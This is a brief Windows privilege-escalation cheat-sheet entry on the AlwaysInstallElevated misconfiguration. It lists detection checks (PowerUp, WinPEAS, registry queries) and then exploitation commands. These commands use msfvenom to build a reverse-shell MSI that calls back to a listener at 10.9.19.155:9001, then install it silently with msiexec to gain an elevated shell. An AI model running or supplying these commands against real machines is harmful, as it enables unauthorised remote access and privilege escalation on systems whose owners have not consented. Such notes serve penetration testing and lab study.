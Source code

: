 # 4. Always install elevated
## Detection  
- Get-RegistryAlwaysInstallElevated (PowerUP.ps1)
- WinPEAS -> Section : Checking AlwaysInstallElevated
- reg query HKLM\\Software\\Policies\\Microsoft\\Windows\\Installer  
- reg query HKCU\\Software\\Policies\\Microsoft\\Windows\\Installer  
  

 ## Exploitation  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.19.155 LPORT=9001 -f msi -o shell.msi  
```

```powershell
msiexec /quiet /qn /i C:\Temp\setup.msi
```

Note : the payload must be copied on the remote machine, doesn't work through impacket
